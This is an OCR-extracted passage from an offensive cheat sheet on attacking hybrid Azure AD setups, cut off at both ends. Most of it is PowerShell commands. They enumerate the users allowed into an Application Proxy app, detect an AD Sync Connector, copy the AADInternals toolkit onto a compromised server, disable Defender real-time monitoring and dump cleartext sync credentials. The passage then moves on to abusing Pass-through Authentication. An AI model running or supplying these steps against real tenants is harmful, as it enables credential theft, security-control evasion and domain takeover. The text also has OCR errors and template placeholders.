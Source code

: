 ```powershell
# Load module
. .\Get-ApplicationProxyAssignedUsersAndGroups.ps1

# Find users and groups allowed to access the application
Get-ApplicationProxyAssignedUsersAndGroups -ObjectId {{ ObjectId objectid }}
```

With access to the application we might find some interesting bug that allows to execute code or obtain interesting information

## Abuse ADSyncConnector to obtain credentials from a onprem DC

First we need to check that the machine has an AD Sync Connector installed:

```powershell
# Check if the machine has Azure AD Connect
Get-ADSyncConnector
```

In order to get the credentials we need to upload some tools:

```powershell
Copy-Item -ToSession {{ PSSession $pssession }} -Path C:\AzAD\Tools\AADInternals.0.4.5.zip -Destination C:\Users\Administrator\Documents

Enter-PSSession {{ PSSession $pssession }}

Set-MpPreference - DisableRealtimeMonitoring $true
Expand-Archive C:\Users\Administrator\Documents\AADInternals.0.4.5.zip -DestinationPath C:\Users\Administrator\Documents\AADInternals
Import-Module C:\Users\Administrator\Documents\AADInternals\AADInternals.psd1
```

To obtain the credentials we can use the imported module

```powershell
# Get cleartext credentials
Get-AADIntSyncCredentials
```

## Abusing PassthroughAuth on a compromised server

Cometimes an onprem Domain Controller is synced with the Azure AD and has PassthroughAuthPSModule enabled to sync. We can check that using the following commands:

```powershell
# Check if the machine has Azure AD Connect
Get-ADSyncConnector

# Check if PTA is installed
Get-Command -Module PassthroughAuthPSModule
```

If it is installed we can use AADInternals to install the PTA Agent
